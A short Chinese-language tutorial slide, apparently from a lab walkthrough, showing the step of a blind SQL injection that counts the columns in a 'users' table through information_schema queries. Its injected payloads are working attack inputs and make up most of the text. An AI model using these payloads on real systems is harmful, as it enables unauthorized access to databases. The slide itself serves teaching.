

第四步：猜解表中的字段名

首先猜解表中字段的数量：

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=1#  显示不存在
…
1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 # 显示存在

说明users表有8个字段。